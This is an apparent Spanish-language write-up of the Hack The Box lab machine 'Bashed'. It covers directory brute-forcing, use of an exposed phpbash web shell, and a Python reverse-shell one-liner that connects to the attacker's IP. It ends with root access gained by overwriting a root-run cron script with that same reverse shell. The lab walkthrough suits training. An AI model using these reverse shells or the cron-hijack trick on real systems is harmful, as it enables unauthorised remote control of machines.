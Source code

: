 # Bashed

<h1 align="center">
  <br>
  <img src="images/bashed.png" alt="Bashed">
  <br>
</h1>

***
**Machine IP**: ## 10.10.10.68

**DATE**  : 13/06/2021
***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

![](nmap.png)

Como vemos solo el puerto 80 está abierto, así que investigaremos en la web para ver si encontramos algo interesante

![](web.png)

![](phpbash.png)

Como vemos es un forntend normal,pero el nombre `php bash` es algo sospechoso  al parecer no muestra directorios, por eso le hacemos un `brute force` para enumerar los directorios con `gobuster`.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200                                                               1 ⨯ 2 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 03:44:34 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]   
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]   
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

Como vemos nos arroja muchos directorios, examinando cada uno de ellos pude encontrar algo interesante en /dev, dos archivos con el nombre de la pagina en si phpbash

![](indexweb.png)


Al abrir el segundo archivo nos carga una shell con el usuario `www-data` , buscamos el archivo user.txt con el siguiente comando

```bash
find / -type f -name "user.txt" 2>/dev/null
```

y bingo, lo encontramos, ahora a tratar de obtener una shell interactiva para poner comandos basicos.

![](wwwdata.png)
![](usertxt.png)

Primero intentaremos ver si hay algunos binarios con permisos `SUID` para ejecutarlos con permisos root, para eso usamos en comando:

```bash
sudo -l
```

![](sudol.png)

Vemos que el usuario `Scriptmanager` puede ejecutar cualquier comando en su sesion, entonces vamos a invocar una shell en nuestra maquina con `netcat`, por el lado de nuestra maquina usariamos el comando 

```bash
nc -nlvp 4448
```

Y por el lado de la phpbash, ejecutamos el siguiente comando para establecer una `shell reversa` con python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("nuestraip",4448));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
```

Y así quedaria nuestra shell, luego nos logeamos como `scriptmanager` con una shell bash con el comando

```bash
sudo -u scriptmanager /bin/bash
```

![](accesscript.png)

Luego hacemos el tratamiento de la tty para que nuestra shell sea interactiva con los siguientes comandos

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen-256color 
\[Ctrl Z\] 
stty raw -echo 
fg 
\[INTRO\] 
export TERM=screen
```

## Escalamiento de privilegios a root

Haremos un ls al directorio raiz y encontramos un directorio llamado scripts con solo permiso para scriptmanager, entramos para ver que archivos o directorios interesantes tiene.

![](privilegesscript.png)

Como vemos hay un archivo `test.py` que pertenece al nuestro usuario y un txt que pertenece a root , cuando nos encontramos con estas situaciones, debemos considerar que una opción es que hay tareas `cron` o automáticas que se realizan cada cierto tiempo, por eso en esta caso el script está siendo ejecutado como root, ya que el archivo que está escribiendo es propiedad de `root`, también al revisar que la fecha de creación del archivo va cambiando, podemos afirmar que cada minuto se actualiza el `test.txt`.

Entonces tenemos que buscar que el archivo test.py contenga código malicioso para que cuando se ejecute podamos establecer una `shell reversa` en nuestra maquina con root.

Abriendo un servidor web para pasar mi archivo test.py con el siguiente código, que es el mismo que utilizamos para invocar la shell reversa, pero sin las comillas y el python -c , ya que todo irá dentro del archivo.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tuip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Luego de descargar nuestro archivo, pondremos en escucha nuestra máquina con el puerto al cual asignamos en el `test.py` y obtendremos la shell como `root`.

![](roottxt.png)

!Bingo, obtenemos sesión como `root` y podemos leer el `root.txt`

Gracias por leer.

